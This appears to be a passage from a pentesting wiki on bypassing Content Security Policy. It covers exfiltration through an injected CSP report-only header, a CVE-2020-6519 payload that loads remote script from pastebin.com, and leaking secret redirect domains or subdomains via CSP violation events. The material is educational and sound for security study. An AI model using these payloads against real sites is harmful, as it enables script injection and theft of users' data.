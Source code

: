 If you can manage to make the server responds with the header **`Content-Security-Policy-Report-Only`** with a **value controlled by you** (maybe because of a CRLF), you could make it point your server and if you **wraps** the **JS content** you want to exfiltrate with **`<script>`** and because highly probable `unsafe-inline` isn't allowed by the CSP, this will **trigger a CSP error** and part of the script (containing the sensitive info) will be sent to the server from `Content-Security-Policy-Report-Only`.

For an example [**check this CTF writeup**](https://github.com/maple3142/My-CTF-Challenges/tree/master/TSJ%20CTF%202022/Nim%20Notes).

### [CVE-2020-6519](https://www.perimeterx.com/tech-blog/2020/csp-bypass-vuln-disclosure/)

```javascript
document.querySelector('DIV').innerHTML="<iframe src='javascript:var s = document.createElement(\"script\");s.src = \"https://pastebin.com/raw/dw5cWGK6\";document.body.appendChild(s);'></iframe>";
```

### Leaking Information with CSP and Iframe

* An `iframe` is created that points to a URL (let's call it `https://example.redirect.com`) which is permitted by CSP.
* This URL then redirects to a secret URL (e.g., `https://usersecret.example2.com`) that is **not allowed** by CSP.
* By listening to the `securitypolicyviolation` event, one can capture the `blockedURI` property. This property reveals the domain of the blocked URI, leaking the secret domain to which the initial URL redirected.

It's interesting to note that browsers like Chrome and Firefox have different behaviors in handling iframes with respect to CSP, leading to potential leakage of sensitive information due to undefined behavior.

Another technique involves exploiting the CSP itself to deduce the secret subdomain. This method relies on a binary search algorithm and adjusting the CSP to include specific domains that are deliberately blocked. For example, if the secret subdomain is composed of unknown characters, you can iteratively test different subdomains by modifying the CSP directive to block or allow these subdomains. Here’s a snippet showing how the CSP might be set up to facilitate this method:

```markdown
img-src https://chall.secdriven.dev https://doc-1-3213.secdrivencontent.dev https://doc-2-3213.secdrivencontent.dev ... https://doc-17-3213.secdriven.dev
```

By monitoring which requests are blocked or allowed by the CSP, one can narrow down the possible characters in the secret subdomain, eventually uncovering the full URL.

Both methods exploit the nuances of CSP implementation and behavior in browsers, demonstrating how seemingly secure policies can inadvertently leak sensitive information.

Trick from [**here**](https://ctftime.org/writeup/29310).

<figure><img src="../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>
